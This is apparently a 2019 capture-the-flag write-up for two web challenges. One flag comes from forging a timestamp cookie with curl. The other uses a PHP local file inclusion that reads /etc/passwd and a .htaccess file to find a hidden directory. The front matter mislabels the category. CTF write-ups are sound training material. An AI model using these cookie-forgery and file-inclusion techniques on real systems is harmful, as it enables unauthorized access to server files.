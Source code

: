 ```yaml
---
slug: writeup-jhdigital-ctf-web
title: Writeup JHDigitalCTF (John Hammond Digital CTF) 2019 Kategori [WEB]
date: 2019-11-10
author: Bardizba
keywords: [WRITE-UP JHDigitalCTF 2019 Forensics]
description: WRITE-UP JHDigitalCTF 2019 Forensics
excerpt: Writeup JHDigitalCTF (John Hammond Digital CTF) 2019 Kategori [MISC]
tags : ["ctf","jhdctf","web_ctf"]
---
```


## The Bomb
```
The Bomb
60
Oh no! A bomb is going to go off in this house, only you can stop it!

Connect here: http://jh2i.com:50036.
```

just change the timestamp in detnate_time cookie.using curl :
```bash
curl http://jh2i.com:50036/defuse.php --cookie "detonate_time=1573355244" | grep JHDCTF
```

    Flag = JHDCTF{cookies_can_save_lives}

## Hot Access

```bash
70
Access to all the latest modules, hot off the press! What can you access?

Connect here: http://jh2i.com:50016
```

its a PHP LFI. we can check by setting the m parameter to /etc/passwd.

first, check for .htaccess file by chaning ?m parameter to __.htaccess__
and the content was :
```bash
 <Directory /var/www/html>

	Options Indexes FollowSymLinks MultiViews
	AllowOverride All
	Order allow,deny
	allow from all

 </Directory>

  <Directory /var/www/html/sshh_dont_tell_i_hid_the_flag_here>

	AllowOverride All

 </Directory>%
```
